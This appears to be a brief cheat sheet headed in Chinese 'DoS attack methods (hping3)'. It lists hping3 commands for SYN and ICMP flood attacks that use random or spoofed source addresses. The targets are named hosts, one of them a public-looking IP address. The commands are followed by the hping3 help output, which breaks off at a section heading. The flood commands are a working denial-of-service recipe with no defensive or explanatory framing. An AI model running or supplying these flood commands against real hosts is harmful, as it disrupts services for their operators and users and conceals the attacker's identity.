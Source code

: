 # DoS***方法（hping3）

hping3 -i ul -S -p 80 192.168.0.23
hping3 -S -p 80 --flood --rand-source 192.168.0.23
hping3 -i ul -S -p 80 192.168.0.23
hping3 -S -p 21 --flood --rand-source 211.75.237.90
hping3 -c 100 -d 128 -S -w 64 -p 21 --flood --rand-source 211.75.237.90
hping3 -a 211.75.237.89 -1 -p 80 --flood 211.75.237.90


```
root@kali:~# hping3 -h
usage: hping3 host [options]
  -h  --help      show this help
  -v  --version   show version
  -c  --count     packet count
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood      sent packets as fast as possible. Don't show replies.
  -n  --numeric   numeric output
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
  -V  --verbose   verbose mode
  -D  --debug     debugging info
  -z  --bind      bind ctrl+z to ttl           (default to dst port)
  -Z  --unbind    unbind ctrl+z
      --beep      beep for every matching packet received
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
  -t  --ttl        ttl (default 64)
  -N  --id         id (default random)
  -W  --winid      use win* id byte ordering
  -r  --rel        relativize id field          (to estimate host traffic)
  -f  --frag       split packets in more frag.  (may pass weak acl)
  -x  --morefrag   set more fragments flag
  -y  --dontfrag   set don't fragment flag
  -g  --fragoff    set the fragment offset
  -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
  -o  --tos        type of service (default 0x00), try --tos help
  -G  --rroute     includes RECORD_ROUTE option and display the route buffer
  --lsrr           loose source routing and record route
  --ssrr           strict source routing and record route
  -H  --ipproto    set the IP protocol field, only in RAW IP mode
ICMP
  -C  --icmptype   icmp type (default echo request)
  -K  --icmpcode   icmp code (default 0)
      --force-icmp send all icmp types (default send only supported types)
      --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
      --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
      --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
      --icmp-help  display help for others icmp options
UDP/TCP
```
